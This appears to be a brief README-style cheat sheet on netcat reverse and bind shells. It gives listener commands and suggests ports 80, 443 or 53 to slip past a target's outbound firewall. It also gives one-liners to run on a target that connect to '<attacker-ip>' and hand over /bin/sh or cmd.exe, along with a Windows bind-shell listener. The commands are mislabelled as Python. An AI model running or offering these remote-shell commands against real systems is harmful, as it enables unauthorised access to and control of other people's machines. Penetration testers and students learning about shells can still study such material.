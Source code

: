 ## Introduction

#### Reverse Shells
**The syntax for starting a netcat listener using Linux is this:**

```python
nc -lvnp <port-number>
```
- **-l** is used to tell netcat that this will be a listener
- **-v** is used to request a verbose output
- **-n** tells netcat not to resolve host names or use DNS.
- **-p** indicates that the port specification will follow.
**Note** - if you choose to use a port below 1024, you will need to use `sudo` when starting your listener. it's often a good idea to use a well-known port number (80, 443 or 53 being good choices) as this is more likely to get past outbound firewall rules on the target.

**Working example** - 
```python
sudo nc -lvnp 443`
```

#### Bind Shells
**The syntax for this is relatively straight forward:**
Below is used to connect to blind shells

```python
nc <target-ip> <chosen-port>
```

#### netcat one liner reverse shell
execute below one on target and start listener on your own system.
```python
 nc <attacker-ip> <chosen-port> -e /bin/sh
```

#### Same but for windows
```python
nc <attacker-ip> <chosen-port> -e "cmd.exe"
```

#### Starting a listener on windows
```python
nc -lvnp 12345 -e "cmd.exe"
```

